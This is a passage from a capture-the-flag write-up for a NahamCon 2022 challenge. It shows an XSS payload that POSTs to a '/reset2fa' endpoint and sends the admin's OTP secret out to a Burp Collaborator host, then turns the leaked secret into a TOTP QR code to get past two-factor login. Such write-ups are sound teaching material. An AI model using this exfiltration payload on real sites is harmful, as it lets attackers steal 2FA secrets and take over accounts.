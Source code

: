 Yeah! Looks like we can execute XSS!

Now we can bypass the OTP by reset the admin's OTP then can get the admin's secret!

## Reset OTP

First we need to construct payload for sending POST request to `/reset2fa` then get the response text

Can use [XHR](https://www.telerik.com/blogs/angular-basics-how-to-use-xhr-fetch-request-javascript) to send the request and send the response text to our burp collaborator (or can use https://webhook.site/)

XSS Payload:
```html
<script>
const xhttp = new XMLHttpRequest();
xhttp.onload = function() {
  document.location="http://6lsoqc0y9bovtq8a76acilca41asyh.burpcollaborator.net?otp="+this.responseText;
}
xhttp.open("POST", "http://challenge.nahamcon.com:32330/reset2fa");
xhttp.send();
</script>
```
Then wait for the response:

![two7](/uploads/nahamcon2022/two7.png)

Yes! We got the OTP URL for admin! Then generate the QR code using `qrencode 'otpauth://totp/Fort Knox:admin?secret=UJ6DMGID6T5NNWUZ&issuer=Fort Knox' -o
 qr.png`
